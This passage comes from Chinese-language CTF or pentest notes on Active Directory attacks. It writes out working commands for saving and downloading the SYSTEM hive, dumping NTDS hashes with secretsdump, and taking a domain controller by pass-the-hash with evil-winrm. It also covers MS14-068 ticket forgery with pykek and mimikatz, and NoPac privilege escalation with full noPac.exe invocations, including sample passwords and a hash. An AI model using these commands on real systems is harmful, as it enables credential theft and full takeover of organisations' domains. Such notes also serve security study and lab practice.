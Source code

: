 最后把system下下来，因为ntds的解密密钥在system内

接下来下载system

```bash
reg save HKLM\SYSTEM system
download system
```

本地进行解密

```bash
python secretsdump.py -ntds ntds.dit -system system local
```

拿下域控

```bash
proxychains evil-winrm -i 172.22.14.11 -u Administrator -H "70c39b547b7d8adec35ad7c09fb1d277"
```

### MS14-068

在小于2012R2且没有打`KB3011780`的域控中存在该漏洞，导致任意用户都可以把自己提权到域控级别。因为老版本的验证过程允许任何签名算法，因此我们只需要把PAC进行md5就可以生成新的校验和。这也就意味着我们可以随意更改PAC的内容，之后再用md5生成一个服务检验和以及KDC校验和。

[Kerberos域用户提权漏洞（MS14-068）分析与防范-腾讯云开发者社区-腾讯云](F:\LocalCTF\Kerberos域用户提权漏洞（MS14-068）分析与防范-腾讯云开发者社区-腾讯云.html)

工具 https://github.com/mubix/pykek

```bash
ms14-068.py -u mary@god.org -s S-1-5-21-1218902331-2157346161-1782232778-1124 -d 192.168.2.25 -p admin!@#45
```

```bash
kerberos::purge
```

```bash
kerberos::ptc "TGT_mary@god.org.ccache"
```

### NoPac （CVE-2021-42278 & CVE-2021-42287）

**文章** [LocalCTF\CVE-2021-42287&CVE-2021-42278 域内提权 - 先知社区](F:\LocalCTF\CVE-2021-42287&CVE-2021-42278 域内提权 - 先知社区.html)

[域内提权漏洞CVE-2021-42287与CVE-2021-42278原理分析 - FreeBuf网络安全行业门户](F:\LocalCTF\域内提权漏洞CVE-2021-42287与CVE-2021-42278原理分析 - FreeBuf网络安全行业门户.pdf)

**工具**  [noPac](F:\ctfTools\noPac-域内权限提升)

```bash
noPac.exe -domain attack.com -user jack -pass jack@777@.. /dc DC.attack.com /mAccount demo123 /mPassword Password123! /service ldap /ptt
或者
noPac.exe -domain attack.com -user jack -pass jack@777@.. /dc DC.attack.com /mAccount demo123 /mPassword Password123! /service cifs /ptt
```
